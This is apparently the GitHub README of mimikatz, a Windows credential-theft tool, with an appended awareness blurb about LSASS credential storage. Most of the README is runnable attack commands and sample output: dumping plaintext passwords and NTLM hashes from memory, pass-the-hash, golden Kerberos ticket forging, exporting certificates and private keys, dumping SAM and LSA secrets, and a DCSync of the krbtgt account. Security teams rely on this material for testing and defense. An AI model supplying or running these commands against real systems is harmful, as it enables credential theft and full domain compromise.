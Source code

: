 # mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */


mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```
But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/gentilkiwi/mimikatz/wiki or on http://blog.gentilkiwi.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/gentilkiwi/mimikatz/releases


## Quick usage
```
log
privilege::debug
```

### sekurlsa
```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos
```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto
```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump
```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build
`mimikatz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:
* for `mimikatz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
* _for `mimikatz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`mimikatz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!
* GIT URL is  : https://github.com/gentilkiwi/mimikatz.git
* SVN URL is  : https://github.com/gentilkiwi/mimikatz/trunk
* ZIP file is : https://github.com/gentilkiwi/mimikatz/archive/master.zip

### Build the solution
* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `mimikatz` is now built and ready to be used! (`Win32` / `x64`)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `mimikatz` and `mimilib` are OK.

### ddk2003
With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:
* http://blog.gentilkiwi.com/programmation/executables-runtime-defaut-systeme
* _http://blog.gentilkiwi.com/cryptographie/api-systemfunction-windows#winheader_

## Licence
CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

## Author
* Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )
* DCSync function in `lsadump` module was co-writed with Vincent LE TOUX, you contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!





=============================Tambahan From ME====================================

Offensive Tool Awareness: #Mimikatz
Is it about creating complicated passwords? or more?

Mimikatz is a Windows x32/x64 program coded in C by Benjamin Delpy (@gentilkiwi) in 2007 to learn more about Windows credentials (and as a Proof of Concept). There are two optional components that provide additional features, mimidrv (driver to interact with the Windows kernel) and mimilib (AppLocker bypass, Auth package/SSP, password filter, and sekurlsa for WinDBG).
Summary:
After a user logs on, a variety of credentials are generated and stored in the Local Security Authority Subsystem Service, LSASS, process in memory. This is meant to facilitate single sign-on (SSO) ensuring a user isn’t prompted each time resource access is requested. The credential data may include Kerberos tickets, NTLM password hashes, LM password hashes (if the password is <15 characters, depending on Windows OS version and patch level), and even clear-text passwords. While you can prevent a Windows computer from creating the LM hash in the local computer SAM database (and the AD database), this doesn’t prevent the system from generating the LM hash in memory.



![55929359_2303514909934297_3378622872208539648_n](https://user-images.githubusercontent.com/56859974/80180957-18beda80-862e-11ea-91dd-159fd5a42ffd.jpg)
